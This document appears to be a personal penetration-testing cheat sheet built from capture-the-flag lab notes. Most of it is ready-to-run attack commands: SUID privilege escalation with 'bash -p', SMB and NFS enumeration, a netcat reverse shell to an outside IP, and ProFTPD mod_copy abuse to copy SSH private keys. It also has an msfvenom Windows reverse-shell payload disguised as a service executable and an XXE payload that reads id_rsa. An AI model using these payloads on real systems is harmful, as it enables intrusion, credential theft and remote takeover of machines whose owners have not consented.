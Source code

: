 ###  Check for files with SUID bit
find / -perm -u=s -type f 2>/dev/null
set permissions by doing chmod u+s and then chmod +x (on bash if possible)
then ./bash -p

###  SMB Enum Shares and Users
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.104.184

## Telnet Reverse UNIX Shell
.RUN mkfifo /tmp/zhxsn; nc 10.17.47.25 4444 0</tmp/zhxsn | /bin/sh >/tmp/zhxsn 2>&1; rm /tmp/zhxsn

###  SMB connect 
smbclient //ip/sharename

###  SMB Download Share/File
smbget -R smb://ip/sharename
within cli, mget [whatever file]

#####  Your earlier nmap port scan will have shown port 111 running the service rpcbind. This is just a server that converts remote procedure call (RPC) program number into universal addresses. When an RPC service is started,  it tells rpcbind the address at which it is listening and the RPC program number its prepared to serve. In our case, port 111 is access to a network file system. Lets use nmap to enumerate this.

nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.104.184

###### The mod_copy module implements SITE CPFR and SITE CPTO commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

Ex. SITE CPFR /home/kenobi/.ssh/id_rsa (Checks if id_rsa exists for some ssh user)
SITE CPTO /var/tmp/id_rsa (Copies)

### SSH connect with id_rsa (private key)
ssh -i id_rsa user@ip

###  Windows MSFVenom
msfvenom -p windows/shell_reverse_tcp LHOST=10.17.47.25 LPORT-4443 -e x86/shikata_ga_nai -f exe -o ASCService.exe

###  XXE Payload
<?xml+version="1.0"?>
<!DOCTYPE+root+[<!ENTITY+read+SYSTEM+'file:///home/falcon/.ssh/id_rsa'>]>
<root>&read;</root>

